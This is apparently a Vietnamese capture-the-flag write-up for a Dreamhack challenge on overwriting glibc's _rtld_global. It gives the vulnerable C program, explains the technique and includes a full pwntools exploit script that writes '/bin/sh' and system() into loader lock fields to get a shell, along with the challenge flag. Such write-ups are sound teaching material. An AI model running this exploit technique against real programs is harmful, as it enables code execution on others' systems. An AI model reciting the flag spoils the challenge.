 # Overwrite _rtld_global


tiếp tục 1 một chall về kĩ thuật **Overwrite _rtld_global**, tài liệu tham khảo:

**dreamhack:** https://learn.dreamhack.io/269#1

**Vì trong dreamhack đã có hướng dẫn rất kĩ rồi nên write up này mình chỉ phân tích hướng khai thác của dreamhack để solved chall này thôi**

## Source C:
```c 
// Name: ow_rtld.c
// Compile: gcc -o ow_rtld ow_rtld.c

#include <stdio.h>
#include <stdlib.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  long addr;
  long data;
  int idx;

  init();

  printf("stdout: %p\n", stdout);
  while (1) {
    printf("> ");
    scanf("%d", &idx);
    switch (idx) {
      case 1:
        printf("addr: ");
        scanf("%ld", &addr);
        printf("data: ");
        scanf("%ld", &data);
        *(long long *)addr = data;
        break;
      default:
        return 0;
    }
  }
  return 0;
}

```

**checks:**

![image](https://github.com/gookoosss/CTF/assets/128712571/efcc19ee-3f7b-4618-a4bb-75897909ed1c)


tại đây **Relro bật** rồi nên ta **ko thể khai thác bằng kĩ thuật tấn công .fini_array được**

như tên chall thì **ta sẽ tập chung vào kĩ thuật Overwrite _rtld_global**

## Khai thác

- **Stage 1:** *Calculating the _rtld_global address*

![image](https://github.com/gookoosss/CTF/assets/128712571/caed5569-b439-4a1d-b918-39a577a24ea1)


như dreamhack đã hướng dẫn thì ta cần leak ra những biến sau: 
- **_rtld_global**
- **_dl_load_lock**
- **_dl_rtld_lock_recursive**

![image](https://github.com/gookoosss/CTF/assets/128712571/56fd82f0-f9a5-4802-807b-2ce3dbc331c3)



từ địa chỉ stdout mà đề cho , **ta hoàn toàn leak được libc base, ld base từ đó tìm được địa chỉ của những thứ ta cần**

- **Stage 2:** *rtld_global structure manipulation exploit*

![image](https://github.com/gookoosss/CTF/assets/128712571/f521e51d-82cc-41df-8542-0cc001f754fa)


như trên hướng dẫn thì **ta sẽ gán /bin/sh\0 thành dạng u64() vào dl_load_lock và gán system vào _dl_rtld_lock_recursive**

giờ ta cùng phân tích lý do tại sao phải làm vậy

## phân tích

- như ta đã biết thì **khi kết thúc chương trình nó sẽ trỏ đến _rtld_global để thực thi exit**

![image](https://github.com/gookoosss/CTF/assets/128712571/cec6ee7d-ee0b-4db9-b5c1-be6b5eb40be3)


- như ảnh trên ta thấy thì **_dl_load_lock như 1 hàm để setup vậy cho lệnh exit vậy**, nên ta sẽ đoán là **ở đây ta có thể gán /bin/sh\0 vào** 
- sau khi setup xong thì **nó sẽ thực thi tại _dl_rtld_lock_recursive**, lúc này **ta gán hàm system vào đây** thì khi kết thức chương trình thì thay vì thực thi exit thì nó thực system cho mình 

cuối cùng ta kết thúc chương trình và lấy shell thôi:

![image](https://github.com/gookoosss/CTF/assets/128712571/8f7573c6-d5f1-47e8-86fa-aec04053b69b)


## script:

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./ow_rtld_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")
# p = remote("host3.dreamhack.games", 20083)


context.binary = exe
p = process([exe.path])
gdb.attach(p, gdbscript = '''
b*main+96
b*main+240
c        
''')

input()

p.recvuntil('stdout: ')
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x3ec760
ld.address = libc.address + 0x3f1000
rtld_global = ld.address + 0x228060
load_lock = rtld_global + 0x908
recursive = ld.address + 0x228f60
log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))
log.info('ld base: ' + hex(ld.address))
log.info('rtld_global: ' + hex(rtld_global))
log.info('load_lock: ' + hex(load_lock))
log.info('recursive: ' + hex(recursive))

system = libc.sym['system']

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'addr: ', str(load_lock))
p.sendlineafter(b'data: ',str(u64('/bin/sh\0')))

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'addr: ', str(recursive))
p.sendlineafter(b'data: ',str(system))

p.sendlineafter(b'> ',b'2')

p.interactive()

# DH{a5bd416ee5f23da9f378c1b5d177b99366141f93beb3eabfa5b74abcf83f4293}

```

## Flag 

DH{a5bd416ee5f23da9f378c1b5d177b99366141f93beb3eabfa5b74abcf83f4293}

